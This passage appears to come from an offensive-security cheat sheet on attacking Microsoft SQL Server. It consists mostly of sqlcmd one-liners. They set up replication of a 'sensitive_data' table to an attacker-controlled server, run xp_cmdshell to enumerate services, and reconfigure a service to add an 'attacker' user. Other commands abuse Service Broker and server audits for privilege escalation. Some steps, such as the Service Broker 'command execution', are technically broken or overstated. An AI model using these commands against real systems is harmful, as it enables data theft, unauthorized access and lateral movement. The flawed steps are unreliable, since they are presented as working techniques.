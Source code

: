 ### 19.4 Exfiltrating via Database Replication
- **Setting Up Malicious Replication**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_addlinkedserver @server='attacker_server', @srvproduct='', @provider='SQLNCLI', @datasrc='<attacker_ip>';"
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_addpublication @publication='MaliciousReplication', @article='sensitive_data', @article_type='TABLE', @source_object='sensitive_data_table';"
  ```
  Set up replication from a victim SQL Server to an attacker-controlled server.

- **Transferring Data via Replication**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC sp_startpublication_snapshot @publication='MaliciousReplication';"
  ```
  Trigger the replication process to transfer sensitive data to the attacker’s server.

## 20. Advanced Privilege Escalation

### 20.1 Escalate Privileges Using Service Accounts
- **Identifying Weak Service Account Passwords**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c Get-Service | Where-Object {$_.StartType -eq ''Automatic'' -and $_.ServiceName -notlike ''*SQL*''}';"
  ```
  Identify and target weak service accounts running on the SQL Server.

- **Exploiting Service Accounts for Lateral Movement**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'sc.exe config ServiceName binPath= ''cmd.exe /c net user attacker P@ssw0rd /add''';"
  ```
  Exploit service accounts to gain further privileges or move laterally within the network.

### 20.2 Abusing SQL Server Service Broker for Privilege Escalation
- **Creating a Service Broker Queue**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE QUEUE attacker_queue;"
  ```
  Create a malicious queue that can be used to execute commands.

- **Sending Commands to the Queue**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "SEND ON CONVERSATION CONVERSATION_HANDLE WITH MESSAGE TYPE [http://schemas.microsoft.com/SQL/ServiceBroker/EndDialog];"
  ```
  Execute commands via Service Broker by sending messages to the queue.

### 20.3 Exploiting SQL Server Security Features
- **Abusing SQL Server Audit**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE SERVER AUDIT [MaliciousAudit] TO FILE (FILEPATH = 'C:\\Path\\To\\AuditFile'); ALTER SERVER AUDIT [MaliciousAudit] WITH (STATE = ON);"
  ```
  Create and abuse a server audit to capture sensitive actions and data.
